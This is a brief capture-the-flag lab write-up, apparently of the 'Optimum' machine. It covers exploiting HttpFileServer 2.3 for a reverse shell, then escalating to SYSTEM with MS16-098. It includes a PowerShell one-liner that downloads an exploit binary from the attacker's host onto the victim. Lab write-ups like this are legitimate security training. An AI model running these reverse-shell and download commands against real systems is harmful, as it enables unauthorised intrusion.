 # Optimum

> Nashia Holloway | May 27th, 2020

### 10.10.10.8

## Enumeration

Only port 80 is open. It's running HttpFileServer 2.3, which has an exploit available. I had to host nc.exe on a python web server (nc.exe from `/usr/share/windows-binaries/nc.exe`).

## Initial Access

```
python3 -m http.server 
```

I started a netcat listener and then had to change the local address and port in the exploit script to my tun0 address and port I se the netcat listener on.

```
python exploit.py 10.10.10.8 80
```

Kicked off a reverse shell running as the user Kostas, and I'm able to get the user flag.

## Privilege Escalation

A good windows exploit suggester is [wesng](https://github.com/bitsadmin/wesng). I cloned the repository in `/opt` and after copying the victim machine's systeminfo output locally, I run the script.

```
python3 /opt/wesng/wes.py --definitions /opt/wesng/definitions.zip -e sysinfo.txt
```

This gives back may too much info to be useful. I need to work on Windows post-exploitation enumeration in order to privesc. Ended up looking at a writeup, and people used MS16-098. So I hosted that on the python server and used PowerShell on the victim machine to pull it over.

```
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.46:8000/41020.exe', 'C:\Users\kostas\Desktop\privesc.exe')"
```

Running this I elevate to system and am able to get the root flag.

